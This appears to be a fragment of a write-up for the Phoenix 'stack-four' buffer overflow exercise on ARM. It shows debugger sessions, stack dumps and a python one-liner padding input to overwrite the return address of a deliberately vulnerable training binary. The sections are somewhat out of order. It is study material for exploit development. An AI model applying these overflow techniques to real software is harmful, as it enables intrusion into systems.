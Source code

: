 ```

[0x000105dc]> pj
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
##### Debugger
```
// A * 78
gef> c
Program received signal SIGSEGV, Segmentation fault.

gef> bt
#0  0x00000000 in ?? ()
#1  0x0001058c in start_level ()

// Breakpoint 0x0001058c
#1  0x000105bc in main ()

gef> r

*************************
Starting program: /opt/phoenix/arm/stack-four
AAAA

───────────────────────────────────────────────────────────────────── stack ────
0xfffefd20│+0x0000: 0xfffefd5f  →  0x7eee400a	 ← $sp
0xfffefd24│+0x0004: "AAAA"
0xfffefd28│+0x0008: 0x00000000
0xfffefd2c│+0x000c: 0xf77eee40  →  0x00000005
0xfffefd30│+0x0010: 0x00010640  →  "Welcome to phoenix/stack-four, brought to you by h[...]"
0xfffefd34│+0x0014: 0x00000000
0xfffefd38│+0x0018: 0x00000036 ("6"?)
0xfffefd3c│+0x001c: 0x00000000

*************************
Starting program: /opt/phoenix/arm/stack-four
AAAAAAAA
───────────────────────────────────────────────────────────────────── stack ────
0xfffefd20│+0x0000: 0xfffefd5f  →  0x7eee400a	 ← $sp
0xfffefd24│+0x0004: "AAAAAAAA"
0xfffefd28│+0x0008: "AAAA"
0xfffefd2c│+0x000c: 0xf77e0000
0xfffefd30│+0x0010: 0x00010640  →  "Welcome to phoenix/stack-four, brought to you by h[...]"
0xfffefd34│+0x0014: 0x00000000
0xfffefd38│+0x0018: 0x00000036 ("6"?)
0xfffefd3c│+0x001c: 0x00000000

gef> x 0xfffefd5f
0xfffefd5f:	0x7eee400a

gef> x/4wx $sp    // you can see inputted string starting to fill the char buffer on the Stack..
0xfffefd20:	0xfffefd5f	0x41414141	0x41414141	0xf77e0000

// Fill up the Stack
// python -c 'print "A"*(76)'
───────────────────────────────────────────────────────────────────── stack ────
0xfffefd20│+0x0000: 0xfffefd5f  →  0x41414141	 ← $sp
0xfffefd24│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd28│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd2c│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd30│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd34│+0x0014: 0x41414141
0xfffefd38│+0x0018: 0x41414141
0xfffefd3c│+0x001c: 0x41414141
```

  [6435d6f8]: https://azeria-labs.com/functions-and-the-stack-part-7/ "stack explained on ARM"